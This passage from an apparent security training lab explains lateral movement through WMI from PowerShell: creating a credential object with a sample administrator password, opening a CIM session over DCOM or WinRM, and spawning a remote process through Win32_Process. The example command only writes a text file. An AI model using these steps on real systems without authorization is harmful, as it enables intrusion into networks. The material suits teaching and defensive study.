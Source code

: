 We can also perform many techniques discussed in the previous task differently by using Windows Management Instrumentation (WMI).Â WMIÂ is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.Â 

In simpler terms,Â WMIÂ allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways, which we'll discuss.

  
## Connecting toÂ WMIÂ FromÂ Powershell

Before being able to connect toÂ WMIÂ usingÂ PowershellÂ commands, we need to create a PSCredential object with our user and password. This object will be stored in the $credential variable and utilised throughout the techniques on this task:

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish aÂ WMIÂ session using either of the following protocols:

- **DCOM:**Â RPC over IP will be used for connecting toÂ WMI. This protocol uses port 135/TCPÂ and ports 49152-65535/TCP, just as explained when using sc.exe.
- **Wsman:**Â WinRM will be used for connecting toÂ WMI. This protocol uses ports 5985/TCPÂ (WinRMÂ HTTP) or 5986/TCPÂ (WinRM HTTPS).

To establish aÂ WMIÂ session fromÂ Powershell, we can use the following commands and store the session on the $Session variable, which we will use throughout the room on the different techniques:

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

TheÂ `New-CimSessionOption`Â cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to theÂ `New-CimSession`Â cmdlet to establish a session against a remote host.

  

## Remote Process Creation UsingÂ WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCPÂ (DCERPC)
    - 5985/TCPÂ (WinRMÂ HTTP) or 5986/TCPÂ (WinRM HTTPS)  
        
- **Required Group Memberships:**Â Administrators

We can remotely spawn a process fromÂ PowershellÂ by leveraging Windows Management Instrumentation (WMI), sending aÂ WMIÂ request to the Win32_Process class to spawn the process under the session we created before:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```
